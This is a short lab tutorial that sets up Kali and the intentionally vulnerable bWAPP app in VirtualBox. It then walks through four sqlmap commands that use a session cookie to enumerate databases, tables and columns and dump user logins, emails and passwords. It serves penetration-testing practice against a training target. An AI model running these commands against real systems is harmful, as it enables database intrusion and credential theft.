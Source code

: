 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

   ![](/pentest/VirtualBox-2-VM.png)

2. launch bWAP and make sure it is running;

   ![](/pentest/bWAPP-VM.png)

3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/pentest/access-bWAPP-from-kali.png)

1. Go to SQL Injection \(GET/Search\)

![](/pentest/choose-SQL-GET.png)

1. key in a search string; copy of the resulted URL;![](/pentest/key-in-search-box.png)

2. Find out the cookie for the site;

![](/pentest/get-cookie-1.png)

![](/pentest/get-cookie-2.png)

**Now, it is show time; launch SQLmap from terminal;**

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/pentest/s1-sql-all-dbs.png)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/pentest/s2-all-tables.png)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/pentest/s3-all-column.png)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/pentest/s4-all-user-pwd.png)

